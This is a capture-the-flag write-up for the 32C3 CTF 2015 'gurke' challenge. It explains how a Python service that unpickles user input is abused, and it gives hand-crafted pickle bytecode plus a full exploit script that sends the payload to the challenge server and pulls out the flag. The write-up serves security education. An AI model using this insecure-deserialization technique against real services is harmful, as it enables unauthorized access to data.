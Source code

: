 # 32C3 CTF 2015 : gurke

**Category:** Misc
**Points:** 300
**Solves:** 106
**Description:**

> Non-standard [gurke](./gurke): <https://32c3ctf.ccc.ac/uploads/[gurke](./gurke)> Talk to it via HTTP on <http://136.243.194.43/.>


## Write-up

"It's not a standard gurke" is quite accurate.
First it creates a flag object, which contains the flag in the "flag" attribute.
Then it establishes a syscall-filter which is quite restrictive.
Finally it does what we were looking for: A pickle.load with user supplied data:

    data = os.read(0, 4096)
    try:
      res = pickle.loads(data)
      print 'res: %r\n' % res
    except Exception as e:
      print >>sys.stderr, "exception", repr(e)


However the syscall-filter prevents us from suppling a pickled object with a malicious
__reduce__ function, instead we have to get hold of the "flag" object's flag attribute.

Therefore we have to write a little pickle bytecode:

    cinspect\ngetmembers\n(c__main__\nflag\ntR.\n

Which is based on the opcode overview found here:
http://svn.python.org/projects/python/trunk/Lib/pickle.py

The pickle interpreter works stack-based and the code above does the following (pseudocode):

    push inspect.getmembers
    push __main__.flag
    pop func
    pop arg
    push (func, arg)
    call func(arg)
    ret

Which basically calls inspect.getmembers(flag).
The output will include the flag attribute and it's value.

The complete exploit:

    import urllib, urllib2
    import re
    url = 'http://136.243.194.43/'
    # pickle bytecode
    # c:module:function pushes object on the stack
    # (: push mark object
    # t:  pop two top most stack elements + create tuple of them + push tuple
    # R: call callable top most stack element
    # .: rerturn
    req = urllib2.Request(url, data="cinspect\ngetmembers\n(c__main__\nflag\ntR.\n", headers={'Content-type': 'application/python-pickle'})
    response = urllib2.urlopen(req)
    the_page = response.read()
    flag = re.findall("32c3_.{25}", the_page)[0]
    print "flag: " + flag


## Other write-ups and resources

* <https://github.com/p4-team/ctf/tree/master/2015-12-27-32c3/gurke_misc_300#eng-version>
* <http://blukat29.github.io/2015/12/32c3ctf-gurke/>
* <https://github.com/krx/CTF-Writeups/tree/master/32C3%202015/misc300%20-%20gurke>
* <http://pastebin.com/JikU89uJ>
